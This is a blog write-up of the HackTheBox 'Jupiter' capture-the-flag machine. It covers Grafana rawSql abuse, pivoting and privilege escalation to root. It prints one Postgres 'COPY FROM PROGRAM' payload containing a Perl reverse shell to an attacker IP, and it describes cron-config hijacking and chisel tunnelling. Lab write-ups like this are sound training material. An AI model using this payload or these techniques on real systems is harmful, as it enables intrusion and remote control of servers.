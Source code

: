 ```yaml
---
title: HacktheBox Jupiter Writeup
date: 2023-06-16
categories: [Writeup]
tags: [writeup, solve, hackthebox, hack, cybersecurity, machine, jupiter, ctf, htb]
---
```


# Jupiter Machine

I recently solved this HTB machine and it was fun box, and wanted to share with you my writ-up.


### Recon

 The first phase is trying to figure out the box so doing NMAP to scan the running services first.

We got only couple of ports open SSH and HTTP on port 80




![](/assets/img/jupiter/Pasted image 20230609200055.png)

After trying to access the http service it redirects us to `http://jupiter.htb`

 ![](/assets/img/jupiter/Pasted image 20230609195342.png)


 So we need to add the hostname in our `hosts` file 

![](/assets/img/jupiter/Pasted image 20230616210813.png)

 The website is a static nothing interesting shows right away, So doing some enumeration found nothing

![](/assets/img/jupiter/Pasted image 20230616221946.png)

### Scanning

 But after fuzzing the subdomains found a subdomain `kiosk.jupiter.htb`

![](/assets/img/jupiter/Pasted image 20230609200244.png)


 The subdomain is hosting a Grafana instance but still nothing interesting found right away.

![](/assets/img/jupiter/Pasted image 20230616221857.png)


### Exploitation

So firing up Burp to see how everything works under the hood

After analyzing the requests made found an interesting API call which has a very interesting parameter called "rawSql" which exactly function as its name, It takes a SQL Query as an input and execute it.

![](/assets/img/jupiter/Pasted image 20230609200643.png)

 And it already made our job easier and found a header identifying the backend database used which is "postgres" 

 So now all we need is to craft Postgres SQL query to get a reverse shell

 Using the bellow SQL commands to get a reverse shell

```sql
CREATE TABLE files(cmd_output text);

COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,\"10.10.16.67:1339\");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';

-- Note the backslash to escape the double quote to be a correct format of JSON
```

![](/assets/img/jupiter/Pasted image 20230609201308.png)

 We successfully received a shell
 Now we need to stabilize the shell and upgrade it to be interactive.

![](/assets/img/jupiter/Pasted image 20230616215013.png)

### Getting The User Flag

 Since I couldn't find something interesting, One thing I like to do after using "Linpeas" script is "pspy" 

 Transferring and using `pspy` to monitor and snoop on all running process.

 Found a process that gets executed every few minutes which is calling a config file in "/dev/shm" directory 

 And this config file is world writable by any user

![](/assets/img/jupiter/Pasted image 20230609202057.png)

![](/assets/img/jupiter/Pasted image 20230616215707.png)

 Editing the config file to execute commands on behalf the process's owner and getting escalated privilege as `juno` user

![](/assets/img/jupiter/Pasted image 20230608201649.png)

 Using `pspy` to see if the commands gets executed successfully 

![](/assets/img/jupiter/Pasted image 20230608202711.png)

 Using the sticky bit permission over the `bash` binary I was able to get escalate privilege as `juno` user

![](/assets/img/jupiter/Pasted image 20230608202821.png)


![](/assets/img/jupiter/Pasted image 20230608233501.png)

 As we can see in the previous screen in order to read the `user.txt` file we must be in the group of `juno` which we are not, cause we got our shell inherited from the previous session which from the user `postgress` and to get all groups of the user `juno` we must start a new session not inherit a new one.

 Getting a reverse shell using the script found in the `juno` home directory which runs every few minutes as we have write access to the script.

![](/assets/img/jupiter/Pasted image 20230608233538.png)

 Now we are able to read the user.txt file

![](/assets/img/jupiter/Pasted image 20230608233731.png)


### Lateral Movement 

 We can see another user called `jovian` in the home directory which maybe interesting.
 But couldn't find anything would help to escalate to the root or the other user "Jovian"

 Trying to find any files or directories owned by `jovian` and accessible by `juno`

```sh
find / -user jovian 2>/dev/null
```

 Found a directory `solar-flares` which is owned by group `science` and `juno` is a user of this group which means juno can access the folder

![](/assets/img/jupiter/Pasted image 20230609210029.png)

 Reading the files it looks like a Jupyter server and already found a token from the logs
![](/assets/img/jupiter/Pasted image 20230616220827.png)
 To make sure the website is still up and running using `netstat`

![](/assets/img/jupiter/Pasted image 20230609210415.png)

 Now we are sure that the server is running

 Now we need to access the port "8888" from our machine top be able view the server from the browser we could do that easily by port forwarding but we don't have SSH access, So we will use chisel.

 Transferring Chisel and pivot to access the Jupyter instance

![](/assets/img/jupiter/Pasted image 20230609002818.png)

 Injecting reverse shell code and  execute it

![](/assets/img/jupiter/Pasted image 20230609002953.png)


 Received a reverse shell as `jovian`

![](/assets/img/jupiter/Pasted image 20230609003103.png)

### Privilege Escalation To Root

 Using `sudo -l` to see what commands are allowed to run as root

![](/assets/img/jupiter/Pasted image 20230609024928.png)

 We can run execute this binary as root without requiring password
 The binary `sattrack` needs a config file to run
 Searching for the configs

![](/assets/img/jupiter/Pasted image 20230609025001.png)

 After understading how this works, It seems it tries to fetch a file and store it on the current directory, We can hack this by providing the `root.txt` file to fetch and then it will store its content in the same directory where we can view it 

![](/assets/img/jupiter/Pasted image 20230609025117.png)

 Run the tool as sudo, Read the root.txt

![](/assets/img/jupiter/Pasted image 20230609025159.png)


 Now we got the last flag.


Hope you enjoyed the write-up!
